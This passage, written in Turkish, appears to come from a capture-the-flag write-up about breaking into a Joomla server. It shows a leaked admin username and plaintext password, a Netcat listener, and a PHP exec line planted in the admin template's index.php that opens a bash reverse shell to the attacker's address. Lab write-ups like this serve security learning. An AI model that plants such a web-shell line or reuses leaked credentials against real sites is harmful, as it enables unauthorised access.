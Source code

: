 ```json title="Output" hl_lines="22 30"
    "id": "224",
    "attributes": {
      "user": "lewis",
      "id": 224
    }
  },
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "password": "P4ntherg0t1n5r3c0n##",
      "id": 224
    }
  },

  ...SNIP...

}
```

Elde edilen kullanıcı adı ve parola bilgisi ile Joomla! Admin paneline başarılı bir şekilde girebildim.

Bir sonraki adımda reverse shell almayı amaçladım. Bunun için öncesinde aşağıdaki komut ile yerel makineme ait IP adresimi öğrendim:

```bash
ip a
```

```text title="Output" hl_lines="5"
...SNIP...

5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.45/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::102b/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::3249:9cef:8cb6:ff8d/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Joomla! Admin panelinde `System` --> `Administrator Templates` --> `Atum Details and Files` şablonu (`administrator/templates/atum`) içerisinde bulunan `index.php` dosyasının başına aşağıdaki satırı ekledim:

```php
exec("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.45/4444 0>&1'");
```
